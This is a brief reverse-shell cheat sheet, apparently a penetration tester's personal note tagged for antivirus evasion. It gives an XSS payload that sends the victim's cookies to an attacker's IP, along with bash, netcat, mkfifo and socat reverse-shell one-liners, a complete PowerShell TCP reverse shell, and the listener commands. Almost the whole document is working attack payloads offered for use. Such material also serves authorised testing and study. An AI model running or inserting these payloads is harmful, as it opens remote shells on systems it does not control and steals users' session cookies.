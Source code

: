 ```yaml
---
tags:
  - av-evasion
---
```

[All-in-one resource](https://www.revshells.com/) 
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

HTTP:
```http
<img src=x onerror=fetch('http://IP:PORT/'+document.cookie);>
```

### Linux:
```bash
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'

nc -e /bin/sh IP PORT

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
```

> The #pseudo-terminals  let’s you spawn a pseudo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal.

### Windows
```powershell
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
# Listen

```Shell
$ socat file:`tty`,raw,echo=0 tcp-listen:PORT
$ nc -nlvp PORT
```

Once we get a shell, we can try to [[Upgrade Shell]]